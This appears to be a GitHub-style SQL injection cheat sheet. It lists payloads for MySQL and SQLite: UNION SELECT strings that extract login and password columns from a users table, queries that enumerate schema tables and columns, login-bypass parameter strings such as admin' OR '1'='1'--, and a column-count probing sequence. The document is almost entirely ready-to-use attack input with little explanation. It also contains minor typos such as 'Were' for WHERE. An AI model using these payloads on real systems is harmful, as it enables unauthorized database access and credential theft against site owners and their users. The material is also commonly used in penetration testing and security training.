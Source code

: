 # SQLi 
#### Command characters are (#, /**/, ;, —)

##### Note: We can use the following code to make it true

    ("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/")

    
..............................................................................
# MySQL

    ' union select login,password from users-- a
    ' union all select 1,(select password from users),3+--+
    '+UNION+SELECT+2,3,table_name,4+from+INFORMATION_SCHEMA.tables
    '+UNION+SELECT+2,group_concat(table_name),3,4+from+INFORMATION_SCHEMA.TABLES
    '+UNION+SELECT+NULL,+COLUMN_NAME,+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    '+UNION+SELECT+NULL,+group_concat(COLUMN_NAME),+NULL,+NULL+FROM+INFORMATION_SCHEMA.COLUMNS
    ' union select GROUP_CONCAT(login SEPARATOR ', '), GROUP_CONCAT(password SEPARATOR ', ') FROM users# –– -
    '+UNION+SELECT+2,3,group_concat(table_name),4+from+INFORMATION_SCHEMA.tables+where+table_SCHEMA=database()--
    ' UNIon SELect 1,(SELect GROup_CONcat(COLumn_NAMe) FROm INFormation_SCHema.COLumns WHEre TABle_NAMe='users')-- -
    ' UNIon SELect 1,(SELect GROup_CONcat(TABle_NAMe) FROm INFormation_SCHema.TABles WHEre TABle_SCHema=DATabase())-- -
    ' union select table_name, GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns where table_name = 'users'# –– -
    
..............................................................................
 
    user=admin' ;&pass=a 
    user=admin' --&pass=a
    user=admin' /*&pass=a
    adm'||'in &Pass=' glob '*
    user=ad'||'min'%00&pass=a
    user=1' OR '1'='1%00&pass=a
    user=admin' OR '1'='1';&pass=a
    user=admin' OR '1'='1'--&pass=a
    user=admin' OR '1'='1'/*&pass=a
    user=admin&pass=a'/**/IS/**/NOT/**/'b
    user='admi'||CHAR(' AND pass='-0+110)||''
    user=adm' ||   trim('in', Password: )  || '&pass=a
    user=admin' union select * from users where '1&pass=a
    user=' union select * from users where username in("admin")/*&pass=a
    user=mali'/**/union/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;&pass=a
    User='/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*&pass=a

.....................................................................................
# For SQLi (SQLite)

    'union select sqlite_version() -- -
    123' UNION SELECT 1, sqlite_version(), 3;--
    ' UNION SELECT table_name FROM sqlite_master --
    123' UNION SELECT name, sql, null from sqlite_master;--
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' --
    ' UNION SELECT null, table_name FROM pragma_table_info('sqlite_master') --
    ' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='view' AND sql NOT NULL --
    ' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='your_table' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='index' AND sql NOT NULL --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='trigger' AND sql NOT NULL --
    ' UNION SELECT null, name FROM pragma_module_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT null, name FROM pragma_function_list() WHERE name NOT LIKE 'sqlite_%' --
    ' UNION SELECT tbl_name FROM sqlite_master WHERE TYPE='table' AND tbl_name NOT LIKE'sqlite_%'
    ' UNION SELECT null, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
    ' UNION SELECT null, sql FROM sqlite_master WHERE type='table' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' --
    ' UNION SELECT group_concat(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name' --
### The structure of the command code to create the desired payload is as follows
        'union select <column> FROM <table_name> Were <conditions > --
    
        
.....................................................................................................................
    
    ' UNION SELECT NULL --
    ' UNION SELECT 1 --
    ' UNION SELECT 'a' --
    ' UNION SELECT 'a', 'b' --
    ' UNION SELECT 'a', 'b', 'c' --
    ' UNION SELECT 'a', 'b', 'c', 'd' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0' --
    ' UNION SELECT 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '0', '1' --
